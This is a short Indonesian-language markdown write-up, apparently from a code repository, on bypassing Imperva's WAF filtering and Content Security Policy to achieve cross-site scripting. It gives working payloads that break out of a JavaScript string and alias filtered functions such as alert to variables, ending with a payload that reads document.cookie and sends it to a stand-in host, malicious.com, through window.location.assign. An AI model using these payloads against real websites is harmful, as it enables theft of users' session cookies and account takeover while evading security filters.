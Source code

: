 # XSS BYPASS IMPERVA dan CSP(Content Security Policy)  - 25 Januari 2022
# Imperva memfilter beberapa hal
## 1. Tag HTML yang malicious 
    * <script>
    * <img src>
    * javascript::
## 2. Built in function dari javascript
```javascript
console.log("test")
alert("test")
prompt()
window.open("http://malicious.com")
```


## Bypass ini bisa dilakukan jika kita sudah bisa mengontrol variabel pada javascript
####  Example Vulnerable Code: 
![Alt text](./1.png "Vulnerable Code")

### Disini kita bisa memanggil function yang difilter dengan cara menyimpan objek dari function ke variable dahulu

#### Example Payload :
```javascript
');let f=123;f=2;f=console;f.log("XSS CONSOLE HERE");//
```

```javascript
');let f=123;f=2;f=alert;f("XSS ALERT HERE");//
```


### maka payload yang diterima server menjadi :
![Alt text](./2.png "Final Payload")

# Bypass CSP (Content Security Policy)
### kita bisa memanfaatkan function javascript :
```javascript
window.open("http://malicious.com")
window.location.assign("http://malicious.com")
window.location.replace("http://malicious.com")
```

### Apabila digabungkan dengan bypass xss sebelumnya maka final payload menjadi :
```javascript
')let x=22;x=document;x=x.cookie;let f=123;f=2;f=window;f=f.location;f.assign("http://malicious.com/"+x);//
```
